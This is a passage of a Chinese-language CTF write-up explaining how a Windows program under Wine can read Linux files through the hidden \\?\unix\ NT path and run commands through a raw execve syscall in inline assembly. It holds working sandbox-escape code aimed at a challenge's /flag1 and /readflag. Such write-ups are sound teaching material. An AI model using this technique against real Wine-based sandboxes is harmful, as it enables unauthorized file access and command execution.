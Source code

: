 没错，就这么简单就能访问到 Linux 下的文件。这并不需要上面提到的 Z: -> / 的磁盘映射。但是写题解的时候本地测试发现这个 payload 好像不行，最后发现这个行为和当前工作目录（cwd）有关。在容器里跑的时候，cwd 是 /，所以能访问到 /flag1。

那么有没有其他的方法，即使在 cwd 改变的情况下也可以读取到 /flag1 呢？如果去翻一下 wine 生成的配置目录，可以看到一些有意思的东西：

```console
$ pwd
/home/user/.wine
$ grep unix user.reg | head -n 5
"@Droid Sans Fallback (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\truetype\\droid\\DroidSansFallbackFull.ttf"
"@Noto Sans CJK HK (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Regular.ttc"
"@Noto Sans CJK HK Black (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Black.ttc"
"@Noto Sans CJK HK Bold (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-Bold.ttc"
"@Noto Sans CJK HK DemiLight (TrueType)"="\\\\?\\unix\\usr\\share\\fonts\\opentype\\noto\\NotoSansCJK-DemiLight.ttc"
```

所以上面的程序修改为：

```c
FILE *f = fopen("\\\\?\\unix\\flag1", "r");
```

就可以了。这个路径语法是 Windows NT 系列系统的内部路径表示格式，例如在 Windows 下我们常用的这个路径格式：

```
C:\Windows\explorer.exe
```

它的等价路径是：

```
\\?\C:\Windows\explorer.exe
```

很显然，wine 自己做了一些特别的处理来方便程序访问 Linux 的文件（否则会出现类似于删掉磁盘映射之后 wine 运行的 Windows 程序无法访问到 Linux 的字体的情况）。只是这样的隐藏接口，也可以被我们利用，实现出乎意料的事情。

### 任意命令执行

有两种思路：一种是找专门启动程序的有关库函数，然后用 NT Path 作为参数去调用（我了解到的有关题解有使用 `_spawnvp()` 的）；另一种方法，也是我最开始出题的时候想到的办法，下面会详细介绍。

还记得之前说过，wine 在用户层解决了 Windows 程序使用系统调用的问题吗？那么，**如果我在 Windows 程序里面调用 Linux 的系统调用（直接 `syscall`），会发生什么？**

答案是：能够毫无阻碍地正常调用。（这一点也在 WineHQ Wiki 里面提到了）

因此我们写一个直接调用 `execve()` 的 PE 程序吧！当然，我们不想和 MinGW 以及 Windows 的 C 库扯上关系，所以这里用内联汇编。

```c
#include <stdio.h>

int main() {
    char *filename = "/readflag";
    printf("filename: %p\n", filename);
    __asm__ ("mov %0, %%rdi \n\t"     // filename
             "mov $0, %%rsi \n\t"     // argv (NULL)
             "mov $0, %%rdx \n\t"     // envp (NULL)
             "mov $59, %%rax \n\t"    // execve(2)
             "syscall"
             :: "m"(filename)
             : "%rax", "%rdi", "%rsi", "%rdx"
             );
    return 0;
}
```
